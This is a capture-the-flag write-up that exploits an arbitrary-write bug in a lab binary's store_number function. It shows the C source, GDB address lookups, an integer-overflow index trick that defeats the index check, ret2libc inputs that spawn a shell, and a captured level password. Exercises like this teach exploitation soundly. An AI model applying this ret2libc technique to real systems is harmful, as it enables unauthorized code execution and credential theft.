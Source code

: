 In the `store_number` function, we can see that we have an arbitrary
location writing:
```c
int store_number(char *ptr_store)
{
	unsigned int input_index = 0; // esp+28
	unsigned int input_nbr = 0;	  // esp+24

	printf(" Number: ");
	input_nbr = get_unum();
	printf(" Index: ");
	input_index = get_unum();

	if (input_index % 3 == 0 || input_nbr >> 24 == 183)
	{
		puts(" *** ERROR! ***");
		puts("   This index is reserved for wil!");
		puts(" *** ERROR! ***");
		return (1);
	}
	*(ptr_store + (input_index * 4)) = input_nbr;
	return (0);
}
```

We just need to respect two conditions:
1. The index is not divisible by 3.
2. The 8 hightest bits in the number writting should not be equal to 183.

Otherwise, we can write "anywhere" in the memory.

The idea here is to do a `ret2libc` by writting over the return address.

We have `0x1d0` bytes allocated in the stack for ESP, and the `ptr_store` is
located `0x24` bytes after the end of the stack.
This means we need to goes at the index `428 + 4 + 12 = 444` to start writing on
the return address. The `+12` is here because of the stack alignment at the start
of the `main` function.

Let's take the `system` and `/bin/sh` address:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) i proc map
process 1539
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

- `system`: `0xf7e6aed0` - `4159090384`
- `/bin/sh`: `0xf7f897ec` - `4160264172`

Also, in GDB, I'll take the return address with `info frame`:
```
(gdb) x/xw 0xffffd71c
0xffffd71c:	0xf7e45513
(gdb) c
```
And the return address is stored here: `0xffffd71c`.

Finally, the buffer address in GDB is: `0xffffd554`

So, the offset is: `456` for the return address and `464` for the `/bin/sh` address.

Now, what we can do is exploiting the overflow made by `input_index * 4`
to add the correct amount of bytes to the default buffer address.

By launching the script in the `Ressources` directory, we can see that we have all these
index values available for the both offset:
```
1073741938 - 456
2147483762 - 456
3221225586 - 456
3221225588 - 464
```

We can now just set the good values at the right places. First write `system`, then `/bin/sh`:

```
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 3221225588
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```

Password: `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`